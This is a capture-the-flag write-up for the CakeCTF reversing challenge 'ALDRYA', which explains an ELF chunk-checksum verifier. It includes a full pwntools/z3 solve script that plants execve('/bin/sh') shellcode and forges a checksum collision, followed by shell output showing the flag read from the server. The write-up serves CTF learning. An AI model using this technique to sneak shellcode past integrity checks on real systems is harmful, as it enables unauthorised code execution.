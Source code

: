 # ALDRYA

**Category**: rev \
**Points**: 214 points (18 solves) \
**Author**: ptr-yudai

I'm scared of executing a malicious ELF file. That's why I invented this new
ELF-verify system named ALDRYA.

```
nc misc.cakectf.com 10029
```

Attachments: `aldrya.tar.gz`

## Overview

We're given these files:
```
$ ls -lah
total 60K
drwxrwxr-x 2 plushie plushie 4.0K Aug 29 15:30 .
drwxr-xr-x 3 plushie plushie 4.0K Aug 29 15:30 ..
-rwxr-xr-x 1 plushie docker   18K Aug 26 22:37 aldrya
-rw-r--r-- 1 plushie docker   358 Aug 26 22:37 README.md
-rw-r--r-- 1 plushie docker   268 Aug 26 22:37 sample.aldrya
-rwxr-xr-x 1 plushie docker   17K Aug 26 22:37 sample.elf
-rw-r--r-- 1 plushie docker   547 Aug 26 22:37 server.py

$ ./aldrya
Usage: ./aldrya <ELF> <ALDRYA>

$ ./aldrya sample.elf sample.aldrya
Hello, Aldrya!
```

- `sample.elf` is a simple program that just prints `Hello, Aldrya!`.
- `sample.aldrya` contains a bunch of nonsense
- `aldrya` is what we have to reverse

## Solution

### Part 1: Reversing

Lucky for us, the `aldrya` program is written in C and symbols aren't stripped,
so it's pretty relaxing to reverse.

Basically it will open the ELF and ALDRYA file and do this:
```c
    res = validate(elf_fd, aldrya_fd);
    if (res != 0) {
      puts("[-] ELF file is not genuine");
      fclose(elf_fd);
      fclose(aldrya_fd);
      exit(1);
    }
```

Inside `validate()`, it does this:

```c
  n_read = fread(buf, 4, 1, elf_fd);
  if (
    (n_read == 1) &&
    (buf == 0x464c457f) && /* Check that it starts with `ELF` bytes */
    (size = validate_size(elf_fd,aldrya_fd), size != -1)
  ) {
    for (int i = 0; i < size; i++) {
      if (validate_chunk(elf_fd,aldrya_fd) != 0) return 1;
    }
    return 0;
  }
```

After a bit more reversing, we find that each chunk is `0x100` bytes. The first
four bytes of the ALDRYA file encodes the number of chunks in the ELF, which is
what `validate_size()` checks.

The `validate_chunk()` function reads 4 bytes from the ALDRYA file, which we'll
call a tag. Then it reads in `0x100` bytes from the ELF, and computes another tag like so:
```python
def calc_tag(buf):
    tag = 0x20210828
    i = 0
    for i in range(chunk_size):
        c = buf[i]
        tag = (tag ^ c) >> 1 | (((tag ^ c) & 1) ^ 1) << 31
    return tag
```

Then it verifies that the tags match.

### Part 2: Solving

So how do get the flag? If we check `server.py`, we see:
```python
        url = input('URL: ').strip()
        assert url.startswith('http'), "URL must start with `http`"

        f = tempfile.NamedTemporaryFile(delete=True)
        urllib.request.urlretrieve(url, f.name)
        os.chmod(f.name, 0o555)
        f.file.close()
        os.system(f'./aldrya {f.name} ./sample.aldrya')
```

So we can send it any ELF file, but it needs to validate with `sample.aldrya`.
Here's the plan:
- Replace code in the `_start()` function of `sample.elf` with shellcode
- Modify the rest of the chunk so that it produces the same tag

I implemented this with pwntools and z3:

```python
import pwn
import z3
import os

pwn.context.arch = "amd64"
chunk_size = 0x100


def calc_tag(buf):
    res = 0x20210828
    i = 0
    for i in range(chunk_size):
        c = buf[i]
        res = (res ^ c) >> 1 | (((res ^ c) & 1) ^ 1) << 31
    return res


def sym_calc_tag(buf):
    # Symbolically calculate the tag
    res = z3.BitVecVal(0x20210828, 32)
    i = 0
    for i in range(chunk_size):
        c = z3.ZeroExt(res.size() - buf[i].size(), buf[i])
        a = z3.LShR(res ^ c, 1)
        b = (((res ^ c) & 1) ^ 1) << 31
        res = a | b
    return res


def split_chunks(elf):
    return [elf[i : i + chunk_size] for i in range(0, len(elf), chunk_size)]


def find_chunk(chunks, needle):
    for i, chunk in enumerate(chunks):
        if needle in chunk:
            padded_chunk = chunk.ljust(chunk_size, b"\x00")  # calloc
            return i, chunk, calc_tag(padded_chunk)
    else:
        raise ValueError("Needle not found")


with open("sample.elf", "rb") as f:
    elf = f.read()

# These are the bytes in the `_start` function
needle = bytes.fromhex(
    "f30f1efa31ed4989d15e4889e24883e4f050544c8d0566010000488d0def000000488d3dc1000000ff15522f0000f490"
)

chunks = split_chunks(elf)
chunk_i, old_chunk, old_tag = find_chunk(chunks, needle)

tag = calc_tag(old_chunk)
assert tag == old_tag

needle_start = old_chunk.find(needle)

shcode = """mov rdi, 0x68732f6e69622f
push rdi
mov eax, 0x3b
mov rdi, rsp
mov rsi, 0
mov rdx, 0
syscall
"""

shcode = pwn.asm(shcode)

sym_chunk = z3.BitVecs(" ".join([f"buf_{i}" for i in range(chunk_size)]), 8)

# Avoid clobbering code before our shellcode
for i in range(needle_start):
    sym_chunk[i] = z3.BitVecVal(old_chunk[i], 8)

# Add our shellcode
for i, b in enumerate(shcode):
    sym_chunk[needle_start + i] = z3.BitVecVal(shcode[i], 8)

sym_tag = sym_calc_tag(sym_chunk)

solver = z3.Solver()
solver.add(sym_tag == old_tag)

print(solver.check())
model = solver.model()

evil_chunk = bytes(model.evaluate(c).as_long() for c in sym_chunk)
assert calc_tag(evil_chunk) == old_tag

evil_chunks = chunks
evil_chunks[chunk_i] = evil_chunk
evil_elf = b"".join(evil_chunks)

with open("evil", "wb") as f:
    f.write(evil_elf)
    os.chmod(f.name, 0o755)
```

Output:
```
$ python solve.py
sat

$  nc misc.cakectf.com 10029
URL: http://a56e-67-149-218-244.ngrok.io/evil
ls /
bin
boot
dev
etc
flag-4c147adf5f7a18258f6709ed9402d902.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cat /flag-4c147adf5f7a18258f6709ed9402d902.txt
CakeCTF{jUst_cH3ck_SHA256sum_4nd_7h47's_f1n3}
```
